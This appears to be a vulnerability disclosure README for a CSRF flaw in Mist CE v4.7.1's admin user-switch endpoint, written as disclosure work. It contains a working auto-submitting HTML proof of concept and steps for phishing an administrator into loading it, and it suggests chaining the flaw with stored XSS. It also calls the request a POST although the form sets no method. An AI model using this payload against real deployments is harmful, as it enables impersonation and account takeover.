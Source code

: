 # CVE-2025-MIST-CSRF  
## Cross-Site Request Forgery (CSRF) in Admin's Switch User Operation

## 📜 Description
Mist CE v4.7.1 contains a **Cross-Site Request Forgery (CSRF)** vulnerability in the admin's user-switching operation. The vulnerable endpoint, `/su?email=<user email>`, allows administrators to impersonate users by simply visiting a crafted malicious page. Unlike other endpoints, this one lacks proper protection, which makes it vulnerable to exploitation. An attacker can craft a malicious HTML form that submits a request to the `/su` endpoint, enabling unauthorized actions within the context of an administrator’s session.

## 📌 Affected Version
- **Mist CE v4.7.1** (latest release)
- Other versions may also be affected but have not been tested.

## ⚠️ Disclaimer
This project is intended for **educational and ethical research purposes only**. Unauthorized testing on systems without explicit permission is illegal. Use responsibly and only on systems you own or have permission to test.

## 💻 Exploit Details

### 🔹 **CSRF Exploitation**
An attacker can exploit this vulnerability by phishing or tricking an administrator into visiting a malicious webpage. The crafted form sends a POST request to the vulnerable `/su?email=<user email>` endpoint, impersonating a specified user and performing actions on their behalf. This could lead to:
- **Unauthorized administrative actions**
- **Sensitive information disclosure**
- **Session hijacking**

### 🔹 **Chaining with Other Vulnerabilities**
This vulnerability can be combined with other weaknesses, such as the **Stored XSS** in the tag field, to further escalate attacks, potentially leading to **account takeover**.

## 🛠️ Steps to Reproduce

### 1️⃣ Craft Malicious HTML Form
Create a malicious HTML form designed to impersonate a specific user (e.g., `v@victim.com`). Here’s an example of the malicious form:
```html
<html>
  <body>
    <form action="http://192.168.1.5/su">
      <input type="hidden" name="email" value="v@victim.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState(‘’, ‘’, ‘/’);
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### 2️⃣ Send Malicious Form to Administrator
- The attacker sends this crafted page to an administrator (e.g., via phishing or other social engineering techniques).
  
### 3️⃣ Administrator Visits Malicious Page
- Upon visiting the page, the form automatically submits, and the administrator is tricked into performing a user switch, impersonating the attacker’s specified user.
  
### 4️⃣ Exploiting the Admin's Session
- The admin unknowingly executes the malicious request, performing actions on behalf of the impersonated user.

## 🎬 Demonstration Video
<a href="https://youtu.be/M3AQ67t3ths" target="_blank">
  <img src="https://img.youtube.com/vi/M3AQ67t3ths/maxresdefault.jpg" width="700" height="380"/>
</a>

## 🧑‍💻 Discovery
- The **CVE-2025-XXXX** vulnerability was discovered by **Alex Perrakis (Stolichnayer)**.

## 🔗 References:
- [Mist CE Github Repository](https://github.com/mistio/mist-ce)
